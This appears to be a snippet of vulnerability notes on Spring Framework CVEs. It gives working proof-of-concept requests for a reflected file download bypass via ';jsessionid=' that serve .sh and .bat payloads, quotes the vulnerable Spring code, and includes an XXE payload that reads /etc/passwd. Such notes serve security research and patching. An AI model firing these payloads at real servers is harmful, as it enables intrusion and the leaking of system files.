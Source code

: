 Diff: https://github.com/spring-projects/spring-framework/commit/2281e421915627792a88acb64d0fea51ad138092

POC: 
```
GET /rfd/content?content=hello
GET /rfd/;jsessionid=/content.sh?content=%23!%2Fbin%2Fbash%0Aid
GET /rfd/;jsessionid=/content.bat?content=calc
```
Factor: 
```
org.springframework.web.servlet.mvc.method.annotation.AbstractMessageConverterMethodProcessor
private static final Set<String> WHITELISTED_EXTENSIONS = new HashSet(Arrays.asList("txt", "text", "yml", "properties", "csv", "json", "xml", "atom", "rss", "png", "jpe", "jpeg", "jpg", "gif", "wbmp", "bmp")); //允许的safeExtension
private static final Set<String> WHITELISTED_MEDIA_BASE_TYPES = new HashSet(Arrays.asList("audio", "image", "video")); 

private void addContentDispositionHeader(ServletServerHttpRequest request, ServletServerHttpResponse response) {
    String requestUri = rawUrlPathHelper.getOriginatingRequestUri(servletRequest);  // -> removeJsessionid绕过后续safeExtension校验
    filename = decodingUrlPathHelper.decodeRequestString(servletRequest, filename);
    String ext = StringUtils.getFilenameExtension(filename);
    pathParams = decodingUrlPathHelper.decodeRequestString(servletRequest, pathParams);
    String extInPathParams = StringUtils.getFilenameExtension(pathParams);
    if (!this.safeExtension(servletRequest, ext) || !this.safeExtension(servletRequest, extInPathParams)) {
	headers.add("Content-Disposition", "inline;filename=f.txt");
    }
}

org.springframework.web.util.UrlPathHelper
private String removeJsessionid(String requestUri) {
    int startIndex = requestUri.toLowerCase().indexOf(";jsessionid=");
    if (startIndex != -1) {
        int endIndex = requestUri.indexOf(59, startIndex + 12);
        String start = requestUri.substring(0, startIndex);
        requestUri = endIndex != -1 ? start + requestUri.substring(endIndex) : start;
    }
    return requestUri;
}
```

#### CVE-2013-4152
Affected Version: Spring Framework before 3.2.4 and 4.0.0.M1 using the JAXB marshaller

POC:
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
        <!ELEMENT test ANY>
        <!ENTITY xxe SYSTEM "file:///etc/passwd">
        ]>
<Order><id>&xxe;</id></Order>
```
